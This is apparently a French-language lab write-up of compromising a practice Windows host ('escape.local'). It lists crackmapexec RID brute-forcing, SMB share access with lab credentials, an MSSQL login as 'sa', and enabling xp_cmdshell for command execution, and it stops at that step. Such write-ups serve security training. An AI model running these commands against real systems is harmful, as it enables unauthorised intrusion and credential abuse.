 ## Enumeration:

---


### About :

- **adresse IP**

```
10.10.11.51
```


- **OS** : Windows
### nmap:

![[Pasted image 20250222085901.png]]

### Attaque SMB:

- Enumérer les utilisateur du système windows accessible via **SMB** en uilisant l'attaque **RID Brute-Force**

```
crackmapexec smb escape.local -u "rose" -p "KxEPkKe6R8su" --rid-brute | grep SidTypeUser
```

![[Pasted image 20250223093037.png]]

- Enumérer les **partages SMB** en utlisant l'user **rose**:

```
smbclient -L //escape.local -U rose
```

![[Pasted image 20250223093453.png]]

- Accéder au partage SMB **Accounting Departement** sur la machine avec l'utilisateur **rose** pour essayer de chercher une liste de **compte** et **mot de passe**

```
smbclient //escape.local/Accounting\ Department  -U rose
```

Une fois connécter, on peut afficher la liste des fichiers dans le répertoire avec la commande `dir` (comande windows). On constate qu'il y a deux fichiers dans le répertoire :

![[Pasted image 20250223094317.png]]

On acceder à ces fichiers en utilisant la commande `get`. 

- On peut maintenant ouvrir les fichiers télécharger, et dans le fichier **accounts.xlsx** on trouve des choses imporatantes :

![[Pasted image 20250223100927.png]]
C'est l'user **sa** qui nous interesse.

### Serveur MSSQL:

- On a obtenu des Users-names donc on va tenter de se connécter au serveur MSSQL disponible sur la machine:

```
impacket-mssqlclient 'escape.local/sa:MSSQLP@ssw0rd!'@10.10.11.51
```

![[Pasted image 20250223112226.png]]

- Changer le paramètre `xp_cmdshell` pour `1` (activé) et appliquer les changement imédiatement.

```
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

- Vérification de l'état de `xp_cmdshell`

```
EXEC sp_configure 'xp_cmdshell';
```

![[Pasted image 20250223112721.png]]

- ’**exécuter une commande système Windows sur un serveur Microsoft SQL Server** en utilisant un utilisateur privilégié (`sa`).

